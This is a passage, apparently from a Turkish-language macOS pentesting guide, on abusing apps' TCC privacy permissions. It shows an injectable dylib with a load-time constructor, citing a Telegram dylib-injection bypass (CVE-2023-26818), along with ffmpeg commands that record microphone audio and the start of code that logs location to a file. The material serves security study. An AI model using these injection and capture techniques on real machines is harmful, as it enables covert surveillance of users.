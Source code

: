 {{#tab name="ObjectiveC - Check"}}
Uygulamanın mikrofon erişimi olup olmadığını kontrol edin.
```objectivec
#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

// From https://vsociety.medium.com/cve-2023-26818-macos-tcc-bypass-with-telegram-using-dylib-injection-part1-768b34efd8c4
// gcc -framework Foundation -framework AVFoundation -dynamiclib MicTest.m -o MicTest.dylib

@interface MicrophoneAccessChecker : NSObject
+ (BOOL)hasMicrophoneAccess;
@end
@implementation MicrophoneAccessChecker
+ (BOOL)hasMicrophoneAccess {
AVAuthorizationStatus status = [AVCaptureDevice authorizationStatusForMediaType:AVMediaTypeAudio];
if (status == AVAuthorizationStatusAuthorized) {
NSLog(@"[+] Access to microphone granted.");
return YES;
} else {
NSLog(@"[-] Access to microphone denied.");
return NO;
}
}
@end
__attribute__((constructor))
static void telegram(int argc, const char **argv) {
[MicrophoneAccessChecker hasMicrophoneAccess];
}
```
{{#endtab}}

{{#tab name="Shell"}}
5 saniyelik bir ses kaydedin ve `/tmp/recording.wav` dosyasına kaydedin.
```bash
# Check the microphones
ffmpeg -f avfoundation -list_devices true -i ""
# Use microphone from index 1 from the previous list to record
ffmpeg -f avfoundation -i ":1" -t 5 /tmp/recording.wav
```
{{#endtab}}
{{#endtabs}}

### Konum

> [!TIP]
> Bir uygulamanın konumu alabilmesi için, **Konum Servisleri** (Gizlilik ve Güvenlikten) **etkin olmalıdır,** aksi takdirde erişemez.

- **Yetki**: `com.apple.security.personal-information.location`
- **TCC**: `/var/db/locationd/clients.plist` içinde verildi

{{#tabs}}
{{#tab name="ObjectiveC"}}
Konumu `/tmp/logs.txt` içine yazın
```objectivec
#include <syslog.h>
#include <stdio.h>
#import <Foundation/Foundation.h>
#import <CoreLocation/CoreLocation.h>

@interface LocationManagerDelegate : NSObject <CLLocationManagerDelegate>
@end

@implementation LocationManagerDelegate

```